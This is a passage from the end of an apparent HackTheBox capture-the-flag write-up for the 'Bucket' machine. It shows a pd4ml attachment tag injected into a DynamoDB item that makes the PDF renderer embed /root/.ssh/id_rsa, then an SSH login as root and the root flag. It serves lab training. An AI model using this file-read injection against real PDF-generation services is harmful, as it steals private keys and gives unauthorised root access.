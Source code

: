 ```bash
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
{
    "Items": [
        {
            "title": {
                "S": "Ransomware"
            },
            "data": {
                "S": "<html><pd4ml:attachment src=\"file:///root/.ssh/id_rsa\" description=\"attachment sample\" icon=\"Paperclip\"/>"
            }
        }
    ],
    "Count": 1,
    "ScannedCount": 1,
    "ConsumedCapacity": null
}
--2021-04-29 12:43:23--  http://localhost:8000/files/result.pdf
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19338 (19K) [application/pdf]
Saving to: ‘result.pdf.1’

result.pdf.1                                       100%[=============================================================================================================>]  18.88K  --.-KB/s    in 0s      

2021-04-29 12:43:23 (58.1 MB/s) - ‘result.pdf.1’ saved [19338/19338]
```

This outputs a pdf into our local filesystem:

![[Pasted image 20210429124611.png]]

Clicking the paperclip gives us the SSH key!

![[Pasted image 20210429124714.png]]

We can copy and paste and save this key, then SSH in as root:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ssh]
└─$ ssh -i root_ssh root@10.10.10.212
...[snip]...
root@bucket:~# cat root.txt 
d2d9f1dd102ca4d5bd9b9ebf62e3f604
```

That's the box!
